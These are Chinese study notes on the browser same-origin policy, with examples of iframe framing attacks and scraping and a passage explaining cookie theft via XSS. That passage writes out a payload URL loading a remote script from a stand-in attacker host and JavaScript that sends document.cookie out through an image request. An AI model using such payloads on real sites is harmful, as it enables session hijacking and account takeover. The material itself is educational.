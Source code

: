 # 同源策略(浏览器的安全策略)
不能使用不同源的数据服务。防御大部分的攻击。但是表单提交、链接 这些项等同于切换页面 script标签的src、link标签的href、img标签的src、iframe标签的src 上述的资源可以引用，但是不可获取内容。

安全问题

例子1：普通的网络用户，不会去记域名等内容。如果我在我自己的页面内，嵌套一个并把他放大，不就和淘宝一模一样了？并且还会有淘宝的状态信息。这时候我们可以获取用户的密码、给用户创建订单、注销用户的账户等等有危害性的操作。例子2：领导说要一个腾讯新闻。嗯好，我们放大自适应。这时候，我们可以加点小广告，截获一些用户操作。分分钟不花钱。得到了一个腾讯新闻。

数据归属问题

大家都知道爬虫吧。想起来前几天在思否看到的头条（“饭友”APP 未经许可抓取微博数据，被判赔偿210万）。如果说没有同源策略，饭友直接 ajax 拉取微博数据。或许你可以说 referer 验证，在浏览器没有同源策略的情况下这些都可以绕过去。微博方看到的就是一个正常的微博用户，正常的ip，访问了他们的接口。那么爬虫呢？爬虫是主动触发的操作，是他们使用他们的ip，伪造成一个合理的用户，去抓取数据。

# 说说劫持 Cookie 的原理
[原文链接](https://juejin.cn/post/6844903813820710926)
1.首先先在存在 XSS 漏洞的网站，加载一段远程脚本，形如：
```
http://www.xxx.com/xxx.html?param="><script src=http://www.malice.com/malice.js></script>
```
XSS Payload 写在 malice.js 中，这样就可以避免直接在 URL 参数中写入大量的脚本代码。
malice.js 内容：
```
var img = document.createElement("img");
img.src = "http://xxx.com/log?" + escape(document.cookie);
document.body.appendChild(img);
```
escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。
在此，我们动态创建了一个图片标签，并把 cookie 参数作为对象，发送给后端服务器。

这样就完成了窃取 Cookie 的整个过程。

利用 Cookie 登陆账户
